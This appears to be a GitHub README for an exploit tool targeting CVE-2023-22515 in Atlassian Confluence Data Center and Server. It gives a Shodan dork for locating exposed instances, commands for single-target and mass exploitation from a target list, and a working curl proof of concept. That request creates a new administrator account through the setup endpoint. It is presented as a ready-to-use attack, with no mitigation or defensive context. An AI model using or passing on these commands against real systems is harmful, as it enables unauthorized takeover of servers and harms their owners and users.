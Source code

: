# CVE-2023-22515

![](https://img.shields.io/static/v1?label=Product&message=Atlassian%20Confluence&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=Confluence%20Data%20Center%20and%20Server&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%2010.%20Unauthorized%20Admin%20Access&color=red)

- Shodan dork:
```
http.favicon.hash:-305179312
```

### Install
```
pip install -r requirements.txt
```

### Usage

```
python3 exploit.py normal https://example.com/confluence
```

```
python3 exploit.py mass targets.txt
```
### Curl POC
```
curl -k -X POST -H "X-Atlassian-Token: no-check" --data-raw "username=adm1n&fullName=admin&email=admin@confluence&password=adm1n&confirm=adm1n&setup-next-button=Next" http://URL/confluence/setup/setupadministrator.action
```
```
Login: YourNewAdminLogin
Pass:  YourNewAdminPass
```
